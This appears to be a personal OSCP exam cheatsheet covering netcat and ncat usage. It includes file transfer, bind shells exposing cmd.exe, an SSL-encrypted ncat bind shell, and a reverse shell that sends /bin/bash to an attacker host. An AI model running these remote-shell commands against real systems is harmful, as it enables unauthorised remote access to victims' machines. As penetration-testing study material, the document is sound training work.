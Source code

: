 # OSCP cheatsheet
Cheatsheet for my OSCP labs / exam.

# Index

- [Introduction](#introduction) 

# Content

### ============================================================
### Introduction
### ============================================================


### ============================================================
### Essential Tools
### ============================================================

**Netcat**  
Basics
```bash
nc -nlvp [port]          # set up listener
nc -nv [IP] [port]       # banner grabbing OR connect to remote port
```
File Transfer
```bash
nc -nlvp [port] > incoming.exe          # VIC: set up listener, direct data to incoming.exe
nc -nv [IP] [port] < /path/to/wget.exe  # ATT: push wget.exe file to VIC
```
Bind Shell: bind executable (e.g. cmd.exe) to a local port (typically victim machine)
```bash
nc -nlvp [port] -e cmd.exe  # VIC: set up listener + bind cmd.exe to local port
nc -nv [VIC IP] [port]   # ATT: attacker connects and is presented with cmd prompt
```
Reverse Shell: victim box connect to attacker box
```bash
nc -nvlp [port]                       # ATT: attacker set up listener
nc -nv [ATT IP] [port] -e /bin/bash   # VIC: attacker sends reverse shell to their box
```

**Ncat**  
Ncat is an improved version of the Netcat tool, with SSL encryption + ability to whitelist access to specific IP's.

Secure Bind Shell:
```bash
ncat -lvp 4444 -e cmd.exe --allow [IP] --ssl   # Box A: set up listener, allow on connections from only IP, SSL-encrypted.
ncat -v 10.11.14.143 4444 --ssl                # Box B: connect to Box A, SSL-encrypted.
```






